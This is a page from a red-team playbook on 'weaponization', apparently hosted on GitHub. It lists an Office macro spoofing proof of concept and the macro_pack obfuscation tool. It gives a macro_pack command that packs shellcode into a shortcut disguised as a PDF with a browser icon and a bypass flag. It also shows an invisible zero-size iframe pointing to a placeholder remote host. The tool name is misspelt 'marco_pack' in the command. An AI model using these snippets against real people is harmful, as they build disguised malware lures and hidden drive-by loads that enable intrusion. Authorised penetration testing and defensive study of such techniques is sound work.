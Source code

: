 # 2 Weaponization

## Table of Contents

- [Tooling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#Tooling)
- [macro_pack](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#macro_pack)
- [Malicious iFrame](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#Malicious-iFrame)

## Tooling

| Name | Description | URL |
| --- | --- | --- |
| spoofing-office-macro | PoC of a VBA macro spawning a process with a spoofed parent and command line. | https://github.com/christophetd/spoofing-office-macro |
| macro_pack | macro_pack is a tool by @EmericNasi used to automatize obfuscation and generation of Office documents, VB scripts, shortcuts, and other formats for pentest, demo, and social engineering assessments. | https://github.com/sevagas/macro_pack |

## macro_pack

```c
PS C:\macro_pack_pro> echo .\<FILE>.bin | marco_pack.exe -t SHELLCODE -G .\<FILE>.pdf.lnk --icon='C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13' --hta-macro --bypass
```

## Malicious iFrame

```c
<iframe src="<RHOST>" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none"></iframe>
```

### Previous

- [1 Reconnaissance](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1-Reconnaissance.md)
- [1.1 Scanning and Enumeration](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1.1-Scanning-and-Enumeration.md)

### Next

- [2.1 Initial Access](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2.1-Initial-Access.md)
